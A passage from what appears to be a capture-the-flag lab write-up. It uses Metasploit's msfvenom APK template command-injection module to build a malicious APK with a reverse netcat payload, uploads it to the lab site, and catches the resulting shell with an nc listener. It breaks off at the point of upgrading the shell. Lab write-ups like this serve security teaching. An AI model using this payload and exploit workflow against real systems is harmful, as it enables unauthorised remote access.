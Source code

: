 
    Payload options (cmd/unix/reverse_netcat):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port

       **DisablePayloadHandler: True   (no handler will be created!)**


    Exploit target:

       Id  Name
       --  ----
       0   Automatic



Running it creates an `.apk` file:



    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

    [+] msf.apk stored at /home/oxdf/.msf4/local/msf.apk



### Exploit

If I wanted to catch this shell with `msfconsole`, I could start up an
`exploit/multi/handler`, but because the payload is an unstaged shell, I
can also use `nc`. I'll start a `nc` listener on TCP 443 using
`nc -lnvp 443`. Then I'll upload the APK to the site:

![](/img/image-20210528122202222.png)

After a few seconds, the site returns an error:

![](/img/image-20210105162443427.png)

But there's shell at `nc`:



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52132 



The shell returns with no prompt, but if I enter Linux commands (like
`id`) and hit enter, they execute:



    id
    uid=1000(kid) gid=1000(kid) groups=1000(kid)



The shell is running as the kid user. I'll upgrade my shell using Python
to get a TTY:
